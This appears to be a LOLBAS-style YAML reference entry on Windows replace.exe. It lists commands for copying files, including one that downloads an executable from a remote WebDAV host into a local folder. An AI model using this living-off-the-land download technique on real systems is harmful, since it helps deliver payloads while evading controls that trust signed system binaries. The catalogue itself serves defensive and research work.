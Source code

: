 ```yaml
---
Name: Replace.exe
Description: Copy, Download
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: replace.exe C:\Source\File.cab C:\Destination /A
    Description: Copy the specified file to the destination folder.
  - Command: replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
    Description: Copy the specified file to the destination folder.
Full Path:
  - C:\Windows\System32\replace.exe
  - C:\Windows\SysWOW64\replace.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/elceef/status/986334113941655553
  - https://twitter.com/elceef/status/986842299861782529
Notes: Thanks to elceef - @elceef
---
```

